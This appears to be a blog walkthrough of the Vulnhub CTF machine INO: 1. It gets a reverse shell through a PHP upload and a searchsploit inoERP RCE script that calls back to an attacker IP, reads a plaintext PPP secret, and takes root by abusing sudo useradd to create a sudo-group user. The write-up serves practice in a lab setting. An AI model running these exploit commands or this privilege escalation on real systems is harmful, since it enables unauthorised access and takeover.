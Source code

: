 ```yaml
---
layout: post
title:  "Vulnhub - INO: 1"
date:   2020-12-05 16:00:00 +1100
category: hacking
---
```


## Introduction
*Level: Easy  
flags: user, root  
Description: This machine require a low skill to get user flag, a little more skill to escalate to root!  
Author: foxlox*

This is [INO: 1](https://www.vulnhub.com/entry/ino-1,601/) from Vulnhub.

## Ports
SSH, SMTP (25) and HTTP.

## HTTP
Well, this webserver hated me. Because it's running *fail2ban*. Basically it was one run with gobuster or whatever, and then good luck getting it to respond again. Anyway, that was part of the fun I guess :)

The simplest way to a shell here is via */lot/*, which is easily found and [easily exploited](https://packetstormsecurity.com/files/159764/lrms10-sql.txt). The exploit doesn't say what you can do with it, but I uploaded the pentestmonkey PHP reverse shell with the *Division List* option in the GUI. It was quite happy to take and execute a PHP file, no issues. Yikes.

### A quick aside
Google has been flagging the pentestmonkey site as scary and dangerous for a while now, but Chrome flat out refused to download the shell I wanted - there is literally no (obvious) option to tell it that, yes I really do want to download this file. Nope; Google says it's spooky and you can't have it. 

This wouldn't have been an issue, except I was working through my Windows host machine rather than Kali, since I'd upset *fail2ban* on Kali. So I downloaded the file with *wget* in WSL. Windows Defender promptly nuked it anyway, but at least I had the option to restore it from Defender jail and the nuking didn't come as a surprise. But Chrome too? Geez.

### Back on track
Actually once I'm on the box there is a second web-based option to get a reverse shell. The box is running [inoERP](https://github.com/inoerp/inoERP/tree/master/inoerp) in addition to the [Lot](https://www.sourcecodester.com/php/14530/lot-reservation-management-system-using-phpmysqli-source-code.html) Reservation Management System. And, inoERP is also exploitable with a python script on searchsploit:

{% highlight shell %}
root@kali:/opt/vulnhub/ino# searchsploit -m php/webapps/48946.py
  Exploit: InoERP 0.7.2 - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/48946
     Path: /usr/share/exploitdb/exploits/php/webapps/48946.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /opt/vulnhub/ino/48946.py


root@kali:/opt/vulnhub/ino# chmod +x 48946.py 
root@kali:/opt/vulnhub/ino# python 48946.py 
specify params in format: python inoerp.py target_url attacker_ip listening_port
root@kali:/opt/vulnhub/ino# python 48946.py http://192.168.1.155/ino_enterprise_resource_planning/www/ 192.168.1.150 1235
{% endhighlight %}

The only hard part with that would be knowing that the directory exists - *ino_enterprise_resource_planning* is a heck of a subdirectory name to guess. I haven't checked if it's in any of my wordlists but I can't see why it would be.

## On the box
We can find some MySQL creds (lot:lot) and extract a bunch of hashes, many of which we can crack to simple things like *admin*, *admin123* etc. But none of this is useful. I run LinPeas; nothing very useful. We have one obvious target user - *ppp*. I had to enumerate the box for quite a while before I eventually found the user password; here's my thinking.

I could see that the box was being worked on during late October - particularly October 27 in the afternoon. I knew I wanted the user *ppp*. I ran this command:

``
www-data@ino:/$ find . -ls 2>/dev/null | grep 'Oct 27 18' | cat 2>/dev/null | grep ppp
``

Which turned up this, amongst some other things:

>132449      8 -rw-r--r--   1 root             root                 4141 Oct 27 18:47 ./var/lib/dpkg/info/ppp.list

I looked in that file, and found there was an */etc/ppp* directory, which I hadn't previously noticed. In there, I found the pot of gold:

{% highlight shell %}
<rce_planning/www/modules/sys/form_personalization$ cd /etc/ppp
cd /etc/ppp
www-data@ino:/etc/ppp$ ls -lash
ls -lash
total 68K
4.0K drwxr-xr-x  7 root dip  4.0K Oct 26 16:26 .
4.0K drwxr-xr-x 96 root root 4.0K Dec  5 01:32 ..
4.0K -rw-r--r--  1 root root  101 Oct 26 16:26 chap-secrets
4.0K -rwxr-xr-x  1 root root 1.8K Feb 20  2020 ip-down
4.0K drwxr-xr-x  2 root root 4.0K Oct 26 16:24 ip-down.d
4.0K -rwxr-xr-x  1 root root 1.9K Feb 20  2020 ip-up
4.0K drwxr-xr-x  2 root root 4.0K Oct 26 16:40 ip-up.d
4.0K -rwxr-xr-x  1 root root  784 Feb 20  2020 ipv6-down
4.0K drwxr-xr-x  2 root root 4.0K Feb 20  2020 ipv6-down.d
4.0K -rwxr-xr-x  1 root root  922 Feb 20  2020 ipv6-up
4.0K drwxr-xr-x  2 root root 4.0K Feb 20  2020 ipv6-up.d
 16K -rw-r--r--  1 root root  13K Feb 20  2020 options
4.0K -rw-------  1 root root 1.6K Oct 26 16:24 pap-secrets
4.0K drwxr-s---  2 root dip  4.0K Oct 26 16:24 peers
www-data@ino:/etc/ppp$ file chap
file chap-secrets 
chap-secrets: ASCII text
www-data@ino:/etc/ppp$ cat ch
cat chap-secrets 
# Secrets for authentication using CHAP
# client        server  secret                  IP addresses
ppp     *       ESRxd7856HVJB   *
{% endhighlight %}

So yes, now we have the password for *ppp*. 

## Privesc
*ppp* can run useradd as root. I had to check the manpages, but when we add a user we can add them to a group, and specify their password (as returned by crypt) if we want. So the method I used was to add a user called *rootpls* with the password *mrcake* to the sudo group. Then since he was in the sudo group, I could do **sudo su** to become root. Let's see this in action:

{% highlight shell %}
www-data@ino:/$ su ppp
su ppp
Password: ESRxd7856HVJB

ppp@ino:/$ sudo -l
sudo -l
Matching Defaults entries for ppp on ino:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ppp may run the following commands on ino:
    (root) NOPASSWD: /usr/sbin/useradd *
ppp@ino:/$ 

ppp@ino:/$ sudo -u root /usr/sbin/useradd -g sudo -p WVLY0mgH0RtUI rootpls
sudo -u root /usr/sbin/useradd -g sudo -p WVLY0mgH0RtUI rootpls
ppp@ino:/$ su rootpls
su rootpls
Password: mrcake
$ id
id
uid=1003(rootpls) gid=27(sudo) groups=27(sudo)
$ sudo su
sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for rootpls: mrcake

root@ino:/# 
root@ino:~# cat proof.txt
cat proof.txt
21bae0a12690199cde7a65bff57723a5
{% endhighlight %}

Not going to lie, I did a little happy dance once I'd rooted this one :)
